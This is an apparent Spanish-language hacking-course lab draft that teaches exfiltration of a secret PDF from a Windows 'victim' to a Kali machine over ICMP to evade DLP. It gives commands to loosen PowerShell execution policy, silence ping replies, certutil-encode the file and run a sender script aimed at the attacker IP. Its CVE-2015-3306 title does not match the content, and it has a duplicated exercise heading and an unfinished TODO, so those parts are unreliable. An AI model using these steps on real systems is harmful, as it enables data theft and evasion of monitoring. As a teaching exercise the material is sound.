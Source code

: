 # Explotar vulnerabilidad CVE-2015-3306 presente en ProFTPD 1.3.5.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

Las organizaciones suelen desplegar sistemas ***DLP***(Data Loss Prevention) en los perimetrales. Su objetivo es detectar cuando alguien intenta sacar del perímetro de la organización algún archivo sensible. 

Generalmente se envían por correo o se suben a repositorios en el Cloud (GSuite, O365, etc) por medio de conexiones ***HTTPS***. Por esta razón, se suele ***inspeccionar el tráfico SSL*** en los firewalls, porque de no ser así, los sistemas ***DLP*** no podrían ver lo que se está transmitiendo.

Pues bien, en este laboratorio aprenderemos a exfiltrar información a través del protocolo ***ICMP***, que generalmente no es inspeccionado, al menos desde el punto de vista del ***DLP***.

## Ejercicio 1: 

La ejecución de scripts maliciosos de PowerShell viene siendo bien detectada por las herramientas de seguridad, como el ***antivirus*** o el ***IDS***.

## Ejercicio 1: Comprobar si la víctima puede usar ICMP.

Asegúrate que en la máquina ***Win 11*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

También debemos asegurarnos de que se permite la ejecución de scripts de ***PowerShell***. Abrimos una terminal de ***PowerShell*** como ***ADMINISTRADOR***. En ellas ejecutamos.
```
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned
```

Cerramos la terminal de administrador de ***PowerShell***.


En este escenario, el equipo ***Víctima*** (***Win 11***) está bajo el control del actor de la amenaza. En este mismo equipo también se encuentra el documento secreto que se desea exfiltrar.

Para conseguirlo vamos a enviar el archivo desde el equipo de la víctima al equipo de ataque (***Kali***) usando el protocolo ***ICMP***.

Lo primero que debemos comprobar es si la víctima puede enviar paquetes ***ICMP***.
Nota: En la realidad, la víctima debería poder hacer ping hacia Internet, donde en una IP Pública se ubicará un servidor de ICMP con el que se va a comunicar. Por temas legales, nos limitamos al entorno de laboratorio, siendo la máquina ***Kali*** el destino de la exfiltración.

En ***Win 11*** abrimos una terminal de ***PowerShell*** y escribimos.
```
ping 192.168.20.9
```

## Ejercicio 2: Crear en servidor ICMP en la máquina de ataque.

Asegúrate que en la máquina ***Kali*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

En la máquina ***Kali*** vamos a levantar un ***servidor ICMP*** mediante un script de ***Python***. Estudiémoslo.
```
nano ~/eHacking_LABS/50/icmp_server.py
```

Vamos a deshabilitar las repuestas de ping en ***Kali***, puesto que el truco consiste en mandar paquetes ICMP desde la víctima, la máquina de ***Kali*** respondería a cada uno de ellos, y no queremos llamar la atención del perimetral.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

Ejecutamos el servidor ***ICMP***. En la terminal escribimos.
```
sudo python ~/eHacking_LABS/50/icmp_server.py
```

## Ejercicio 3: Codificar el documento secreto.

Para ponérselo más difícil al sistema ***DPM*** vamos a codificar el documento en la máquina víctima (recordemos que el actor de la amenaza tiene su control). Para ello usaremos la herramienta ***CertUtil***.

En la máquina de ***Win 11***, en la terminal de ***PowerShell*** escribimos.
```
cd C:\Users\antonio\eHacking_LABS\50

certutil -encode TopSecret.pdf TopSecret.txt
```

Podemos ver el documento codificado.
Nota: ***CTRL+C*** cuando te aburras.
```
cat TopSecret.txt
```

Visualizamos el script de ***PowerShell*** que va a enviar el archivo.
```
code ICMPSender.ps1
```

Las líneas más importantes son:
* *18:* IP de la máquina de ***Kali*** que está ejecutando el servidor ***ICMP***.
* *26:* Archivo a exfiltrar codificado con ***CertUtil***.

El código trocea el archivo en bloques de ***1472*** que es el máximo que puede llevar en la carga los paquetes ***ICMP***.

Cerramos ***Visual Studio Code*** y ejecutamos el script.
```
.\ICMPSender.ps1
```






TODO. PARA EL FINAL!!!!

En la máquina ***Kali*** volvemos a habilitar la respuesta de ***ICMP***.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=0
```











